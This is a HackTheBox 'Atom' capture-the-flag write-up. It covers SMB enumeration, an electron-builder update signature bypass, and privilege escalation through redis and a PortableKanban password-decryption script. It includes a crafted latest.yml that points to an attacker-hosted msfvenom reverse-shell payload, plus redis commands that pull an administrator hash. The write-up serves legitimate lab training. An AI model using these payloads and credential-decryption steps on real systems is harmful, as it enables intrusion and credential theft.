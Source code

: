 ```yaml
---
title: HackTheBox - Atom Writeup
date: 2021-05-08 09:45:47 +07:00
categories: hackthebox
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: HackTheBox Atom Writeup.
---
```


<h1 align="center"> HTB Atom - Writeup</h1>

<p align="center">
 <img src="https://www.hackthebox.eu/storage/avatars/27ea1e1be5e83989ad5b6361773f4eaa.png">
</p>

*[Find the official link for HacktheBox - Atom here!](https://app.hackthebox.eu/machines/340)*


----------------------------------------------------------------------------------------------------

## FOOTHOLD

- Start a nmap scan with default script and version detections and the verbosity flag turned on to see open ports on the fly without having to wait for the scan to finish.
    - ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom1.png)
- A full port scan reveals redis is active on port `6379` along w winrm at 5985 which shows we can probably use remoting with authentic creds.
    - ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom2.png)
- We start off by enumerating port 80.
    - We find a possible username at the end of the page: MrR3boot@atom.htb.
    - From this we infer and add `atom.htb` to our `/etc/hosts` file. Continue browsing the site.
    - Directory Bruteforcing with gobuster results in nothing too userful, moving on. 

### Enumerating redis

- Much cant be enumerated since redis requires credentials to authenticate. Checking the format of authentication shows it requires only the password. We could attempt to brute force the password if nothing turns up from smb.
    - - ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom7.png)

### Enumerating smb

- `smbmap` shows use we have access to 2 shares amongst. **Software_Updates** seems interesting as we have **right access** too to it.
    - ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom3.png)
- Using `smbclient` to connect to the share with null authentication:
    - ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom4.png)
- Grap the pdf in the share. Looking at the pdf we infer 2 things:
    1. **Built with : electron-builder**
    2. We can place the update in any client folder and the automated script would check the update. We can probably replace some code to give us a shell here.
- This link explains a suitable exploit: [electron-builder-Exploit](https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html)
- In short is a vulnerability caused by an unescaped variable. We can trigger a parse error in the script to achieve code execution.
- The exploit bypasses inbuilt signature checks as shown below.
    - ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom5.png)
    - ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom6.png)

----------------------------------------------------------------------------------------------------

## POST EXPLOITATION

***GETTING user.txt***
- Generate an msfvenom payload of choice . Generate a reverse https executable and then rename it with single quotes.
    - ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom8.png)
- Rename the file to the filename as `d'payload.exe` as shown.
    - ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom10.png)
- Calculate the hash using the prescribed syntax as shown below: 
    - ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom9.png)
- Setup a listener on msfconsole to catch your shell using `multi/handler`.
- Generate the `latest.yml` file update. Replace the path and the hash.
    ```bash
    version: 1.2.3
    path: http://10.10.14.52/d'payload.exe 
    sha512: a/xp95BNvRKGxbxRZv+1LOEIs9uaSX6wGz6ip+RDX2XjNkTFVJbwIZ9T21SN40sq/78zYZmb9IxATX710s58Rg==
    ```
- Start a server to host `d'payload.exe` using: `sudo python -m SimpleHTTPServer 80`
- Finally put the update file in one of the client folders on the share using smbclient. Wait for about 15-20 secs and let the update happen. A meterpreter shell is recieved.
    - ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom11.png)
- A getuid command confirms we are `ATOM\jason`.
- Retrive `user.txt` from jason's dekstop folder.

***GETTING root.txt***
- Enumerate the host with winpeas. Begin by dropping winpeas on the box.
    - ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom12.png)
- Jason's credentials do not allow `winrm` remoting. A user guide pdf exists which we might have a look at if needed.
    - ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom13.jpg)
    - ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom17.png)
- Since we already know redis was on,  we find its config file. 
    - ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom14.png)
- We finally found the password for the redis server. 
    - ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom15.jpg)
- Use this [guide](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis) as a reference to pentest redis.
- Now follow these steps:
    1. Connect to redis using:
    `redis -h 10.10.10.237`
    2. Authenticate using the password:
    `auth pass`
    3. Retrive info on the keyspace using:
    `info keyspace`
    4. We see that there is one databse - number 0 which has 4 keys. View the keys using: `keys *`
    5. We see a bunch of keys. Retrieve the first or last, it might most likely be the administrator's key: `get pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0`
    - ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom16.jpg)
- We now have the administrator hash.
- Ater looking a lot on how to decrypt the hash i decided to look back at the "User guide.pdf" to look for further clues.
    - ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom18.png)
- Googling around it is figured that portable-kanban stores the settings for the encrypted password.
- Searching around for an exploit an encrypted password disclosure vulnerability is found [here](https://www.torchsec.net/portablekanban-4-3-6578-38136-encrypted-password-disclosure-torchsec/).
- Remove the unnecessary `except` statement.
- The python script:
    ```python
    import json
    import base64
    from des import * 

    #python3 -m pip install des

    try:
        hash = str(input("Enter the Hash : "))
        hash = base64.b64decode(hash.encode('utf-8'))
        key = DesKey(b"7ly6UznJ")
        print("Decrypted Password : " + key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8'))
    except:
        print("Wrong Hash")
    ```
- Install `des` using: `sudo pip3 install des`
- Run the script, input your hash and get the decrypted hash. 
    - ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom20.jpg)
- We now finally have the password for the administrator account. 
- Lets try winrm again using these credentials. The credentials are valid.
    - ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom19.jpg)
- Grab `root.txt` from the Desktop of the Administrator's account.

----------------------------------------------------------------------------------------------------





